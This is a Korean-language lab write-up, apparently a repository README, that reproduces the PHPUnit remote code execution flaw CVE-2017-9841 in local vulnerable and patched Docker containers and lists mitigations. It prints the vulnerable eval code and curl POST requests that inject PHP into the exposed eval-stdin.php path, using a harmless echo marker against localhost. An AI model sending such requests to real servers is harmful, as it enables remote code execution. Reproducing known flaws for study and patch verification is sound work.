






# PHPUnit 원격 코드 실행 취약점 (CVE-2017-9841)

**Contributors**

- 홍석진(4095)

## 환경 설정

다음 명령을 실행하여 취약한 환경과 패치된 환경을 구축한다.

```bash
docker compose up --build -d
```

전체 빌드와 PoC 검증은 다음 스크립트를 이용하였다.

```bash
./verify.sh
```

취약 환경은 8080번 포트, 패치 환경은 8081번 포트를 사용한다.

- 취약 환경: `http://127.0.0.1:8080`
- 패치 환경: `http://127.0.0.1:8081`



실행 결과 취약 환경과 패치 환경의 Docker 이미지가 정상적으로 빌드되었고, 두 컨테이너가 실행되었다. 취약 환경에서는 `CVE-2017-9841_REPRODUCED` 문자열이 출력되었으며, 패치 환경에서는 같은 문자열이 출력되지 않았다.<br/><br/>

다음 명령을 이용하여 컨테이너의 실행 상태를 확인하였다.

```bash
docker compose ps
```



취약 컨테이너와 패치 컨테이너가 모두 `healthy` 상태로 실행되었다. 취약 환경은 호스트의 8080번 포트가 컨테이너의 80번 포트로 연결되고, 패치 환경은 호스트의 8081번 포트가 컨테이너의 80번 포트로 연결된다.<br/><br/>

## 배경 설명

PHPUnit은 PHP 프로그램의 단위 테스트를 수행하기 위한 테스트 프레임워크이다. 개발자는 PHPUnit을 이용하여 함수나 클래스가 예상한 결과를 반환하는지 자동으로 확인할 수 있다.

취약한 PHPUnit 버전에는 표준 입력으로 전달된 PHP 코드를 처리하는 `eval-stdin.php` 파일이 포함되어 있었다. 이 파일은 원래 테스트 과정에서 내부적으로 사용하기 위한 파일이지만, PHPUnit의 `vendor` 디렉터리가 웹 서버의 공개 경로에 포함되면 외부 사용자가 HTTP 요청을 통해 직접 접근할 수 있다.

즉, 개발 및 테스트용 파일이 운영 서버에 함께 배포되고 외부에 노출되면서 원격 코드 실행으로 이어질 수 있다.

## 취약점 정보

CVE-2017-9841은 PHPUnit의 `eval-stdin.php` 파일에서 발생하는 코드 주입 취약점이다.

취약한 파일은 HTTP POST 요청 본문을 `php://input`으로 읽고, 해당 내용을 PHP의 `eval()` 함수로 실행한다. 공격자가 이 파일에 접근할 수 있다면 요청 본문에 PHP 코드를 삽입하여 서버에서 실행할 수 있다.

대표적으로 PHPUnit 4.8.28 미만과 PHPUnit 5.6.3 미만 버전이 영향을 받으며, CVSS v3.1 점수는 9.8로 평가된다.

공격이 성공하면 웹 서버 프로세스의 권한 범위에서 파일 접근, PHP 코드 실행, 시스템 명령 실행 등의 피해로 이어질 수 있다. 실제 피해 범위는 웹 서버와 컨테이너의 권한 설정에 따라 달라진다.

## 취약점 분석

취약 환경의 `eval-stdin.php`에는 다음 코드가 존재한다.

```php
<?php

eval('?>' . file_get_contents('php://input'));
```

`php://input`은 HTTP 요청 본문을 읽는다. 읽어 온 데이터가 별도의 검증 없이 `eval()`에 전달되기 때문에, 공격자가 전송한 PHP 코드가 서버에서 실행된다.

패치 환경에서는 다음과 같이 `php://input`이 `php://stdin`으로 변경되었다.

```php
<?php

eval('?>' . file_get_contents('php://stdin'));
```



사진의 위쪽은 취약 환경의 코드이고, 아래쪽은 패치 환경의 코드이다. 취약 환경에서는 웹 요청 본문을 읽는 `php://input`을 사용하지만, 패치 환경에서는 명령줄의 표준 입력을 위한 `php://stdin`을 사용한다.<br/><br/>

취약점이 발생하는 과정은 다음과 같다.

1. 공격자가 외부에 노출된 `eval-stdin.php`에 접근한다.
2. HTTP POST 요청 본문에 PHP 코드를 삽입한다.
3. `php://input`이 요청 본문을 읽는다.
4. 읽은 내용이 `eval()` 함수에 전달된다.
5. 공격자가 전송한 PHP 코드가 서버에서 실행된다.

이번 실습에서는 전체 PHPUnit 패키지를 설치하는 대신 취약점의 핵심 동작을 확인할 수 있도록 `eval-stdin.php`의 취약 코드와 패치 코드를 각각 Docker 환경에 배치하였다.

## 취약 환경 직접 재현

취약 환경에 다음 HTTP POST 요청을 전송하였다.

```bash
curl -sS -X POST \
  --data-binary '<?php echo "CVE-2017-9841_REPRODUCED"; ?>' \
  http://127.0.0.1:8080/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php
```



응답으로 `CVE-2017-9841_REPRODUCED` 문자열이 출력되었다. 이 문자열은 요청 본문에 넣은 PHP의 `echo` 코드가 서버에서 실행된 결과이므로, 취약점이 정상적으로 재현되었음을 확인할 수 있다.<br/><br/>

동일한 PHP 코드를 패치 환경에도 전송하였다.

```bash
curl -sS -X POST \
  --data-binary '<?php echo "CVE-2017-9841_REPRODUCED"; ?>' \
  http://127.0.0.1:8081/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php
```



패치 환경에서는 동일한 요청을 전송했지만 문자열이 출력되지 않았다. 이를 통해 패치 환경에서는 HTTP 요청 본문이 PHP 코드로 실행되지 않음을 확인하였다.<br/><br/>

## 대응 방안

가장 확실한 대응 방법은 취약점이 수정된 PHPUnit 버전으로 업데이트하는 것이다.

- PHPUnit 4 계열: 4.8.28 이상
- PHPUnit 5 계열: 5.6.3 이상

PHPUnit은 개발 및 테스트를 위한 도구이므로 운영 서버에는 포함하지 않는 것이 안전하다. Composer를 사용하는 경우 다음 명령을 통해 개발 의존성을 제외할 수 있다.

```bash
composer install --no-dev
```

또한 `vendor/phpunit` 디렉터리와 `eval-stdin.php`가 웹에서 직접 접근 가능한 경로에 포함되지 않도록 해야 한다. 웹 서버와 컨테이너는 최소 권한으로 실행하여 취약점이 악용되더라도 피해 범위를 줄여야 한다.

## POC(Proof of Concept)

### 사용법

Docker 환경이 실행 중인 상태에서 다음 명령을 실행한다.

```bash
python3 poc.py
```

PoC는 취약 환경과 패치 환경에 다음 PHP 코드를 동일하게 전송한다.

```php
<?php echo "CVE-2017-9841_REPRODUCED"; ?>
```

### 결과



취약 환경에서는 `CVE-2017-9841_REPRODUCED` 문자열이 출력되고 `marker executed on vulnerable service: True`가 표시되었다. 반면 패치 환경에서는 응답이 비어 있었으며 `marker blocked on patched service: True`가 표시되었다.

이를 통해 취약 환경에서는 HTTP 요청 본문에 포함된 PHP 코드가 실행되고, 패치 환경에서는 동일한 요청이 차단되는 것을 확인하였다.

실습이 끝난 후 다음 명령으로 환경을 종료할 수 있다.

```bash
docker compose down --remove-orphans
```
